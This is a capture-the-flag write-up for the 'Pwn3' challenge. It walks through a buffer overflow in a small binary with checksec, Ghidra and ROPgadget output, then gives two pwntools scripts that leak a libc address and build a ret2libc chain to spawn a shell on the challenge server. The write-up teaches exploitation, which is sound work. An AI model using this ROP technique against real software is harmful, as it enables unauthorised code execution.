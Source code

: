 ```yaml
---
title: Pwn3
date: 2023-06-10
type: writeup
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

This time you have nothing! Can you still exploit this?

Author: NoobMaster

## Solution

Running checksec on the binary, we notice the lack of canary and PIE, just like the ones before it.

```
$ checksec pwn3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   41 Symbols	  No	0		1		pwn3
```

Open the binary in Ghidra:

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_28,0x50,stdin);
  puts("n00bz{f4k3_fl4g}");
  return;
}
```
We immediately notice the overflow on ``local_28``. This time, however, we have no win function and no ``system`` either. Since the binary is too small for a full ROP payload, it must mean that we have to ret2libc with ROP.

```
$ ROPgadget --binary pwn3 | grep ret
0x00000000004010eb : add bh, bh ; loopne 0x401155 ; nop ; ret
0x00000000004010bc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000040115a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010be : add byte ptr [rax], al ; endbr64 ; ret
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004010ea : add dil, dil ; loopne 0x401155 ; nop ; ret
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401157 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x000000000040122d : cli ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004010c3 : cli ; ret
0x000000000040123b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040122a : endbr64 ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004010c0 : endbr64 ; ret
0x0000000000401231 : in eax, 0x5f ; ret
0x0000000000401228 : leave ; ret
0x00000000004010ed : loopne 0x401155 ; nop ; ret
0x0000000000401156 : mov byte ptr [rip + 0x2f0b], 1 ; pop rbp ; ret
0x0000000000401230 : mov ebp, esp ; pop rdi ; ret
0x000000000040122f : mov rbp, rsp ; pop rdi ; ret
0x0000000000401227 : nop ; leave ; ret
0x00000000004011d8 : nop ; pop rbp ; ret
0x00000000004010ef : nop ; ret
0x0000000000401158 : or ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401232 : pop rdi ; ret
0x000000000040122e : push rbp ; mov rbp, rsp ; pop rdi ; ret
0x000000000040101a : ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040123d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040123c : sub rsp, 8 ; add rsp, 8 ; ret
```
We find a ``pop rdi ; ret`` which is essential for passing ``/bin/sh`` to system. We have puts imported in the binary, which might help us leak a libc address and go from there. We can return to the PLT entry for puts, with the GOT entry as an argument (using ``pop rdi; ret``). Running this payload will conveniently print puts libc address. Then, we can find the libc version, using the [libc database search](https://libc.blukat.me/).

Afterwards, by downloading the found libc version and running it with gdb locally, we can find offsets from puts to everything else. We can even search for ``/bin/sh`` and calculate the offsets, using search-pattern from [gef](https://github.com/hugsy/gef). Exploit to leak:

```py
#!/usr/bin/env python3
from pwn import *

#target = process("./pwn3")
target = remote("challs.n00bzunit3d.xyz", 42450)

pop_rdi = p64(0x0000000000401232)

puts_plt = p64(0x00401060)
puts_got = p64(0x00404018)

target.recvuntil(b'flag?')
payload = b"a" * 0x28 + pop_rdi + puts_got + puts_plt
target.sendline(payload)
target.recvline()
target.recvline()
puts_leak = u64(target.recvline().strip().ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))
```

We run the payload, get the address leak, find the libc versions and the offsets, and further fill in our exploit. An important step to take into account is the fact that we already waste all our inputs by leaking puts. So we should return to the main function at the end of our ROP chain, to abuse more inputs!

```py
#!/usr/bin/env python3

from pwn import *

libc = ELF("./libc6_2.34-0ubuntu3_amd64.so") # the found libc version
#target = process("./pwn3")
target = remote("challs.n00bzunit3d.xyz", 42450)

pop_rdi = p64(0x0000000000401232)
ret = p64(0x000000000040101a) # align stack to 16-bytes again for system call

main_addr = p64(0x004011db)
puts_plt = p64(0x00401060)
puts_got = p64(0x00404018)

target.recvuntil(b'flag?')
payload = b"a" * 0x28 + pop_rdi + puts_got + puts_plt + main_addr # go back to main for more inputs
target.sendline(payload)
target.recvline()
target.recvline()
puts_leak = u64(target.recvline().strip().ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))


system_addr = p64(puts_leak - 0x30170) # offset found with gdb/gef
print(system_addr)

sh_addr = p64(puts_leak + 0x1577c8) # found with search-pattern /bin/sh in gef

payload = b"a" * 0x28 + ret + pop_rdi + sh_addr + system_addr

#gdb.attach(target)

target.sendline(payload)
target.interactive()
```
Run the exploit:
```
$ ./solve.py 
[*] '/home/sunbather/ctf/noobctf/pwn/pwn_series3/libc6_2.34-0ubuntu3_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './pwn3': pid 25635
140139460824784
0x7f74c2c80ed0
b'`\r\xc5\xc2t\x7f\x00\x00'
[*] Switching to interactive mode
Would you like a flag?
n00bz{f4k3_fl4g}
$ whoami
sunbather
```
Aaand we have a shell. Thanks for flying with .hidden airlines!

Note: pwntools has some functionality to automate finding offsets to libc, but for some reason I couldn't get it to work properly. Admittedly, it was my first time fiddling with it and was too lazy to make it work.
